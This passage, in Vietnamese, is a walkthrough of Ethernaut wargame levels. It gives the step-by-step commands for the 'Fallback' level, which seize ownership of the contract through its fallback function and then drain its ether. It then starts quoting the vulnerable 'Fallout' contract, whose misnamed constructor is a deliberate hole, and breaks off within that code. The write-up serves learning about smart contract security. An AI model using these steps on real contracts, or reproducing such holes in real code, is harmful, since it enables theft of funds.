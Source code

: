 ### Fallback Solution

- Ở bài này ta sẽ học được về  `fallback function`. Đây là một hàm đặc biệt trong smart contract, nó không có tên hàm và được sử dụng khi: contract nhận ether, hoặc khi có ai đó gọi hàm không có trong contract hoặc tham số không đúng. 
- Ở đây có một sự đánh lừa nhẹ: hàm `Fallback` không phải là fallback function (dù tên hàm là *Fallback*), mà chính `function() payable public` mới là fallback function. Từ đó ta có cách khai thác như sau: đầu tiên gọi function `contribute()` với một giá trị nhỏ hơn 0.001 để  trở thành contributor

```js
await contract.contribute({value:toWei(0.0001)})
```

- Kiểm tra xem đã trở thành contributor chưa, nếu kết quả > 0 thì có nghĩa là ta đã trở thành contributor rồi

```js
await contract.getContribution().then(x => x.toNumber())
```

- Sau đó send ether tới contract để kích hoạt fallback, khi đó ta sẽ trở thành owner

```js
contract.send(1)
```

- Kiểm tra xem đã trở thành owner chưa

```js
await contract.owner()
```

- Rút toàn bộ tiền khỏi contract

```js
contract.withdraw()
```

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## 2. Fallout

**Mục tiêu**: Chiếm quyền owner

```js
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallout is Ownable {

  mapping (address => uint) allocations;

  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  function allocate() public payable {
    allocations[msg.sender] += msg.value;
  }

  function sendAllocation(address allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

```
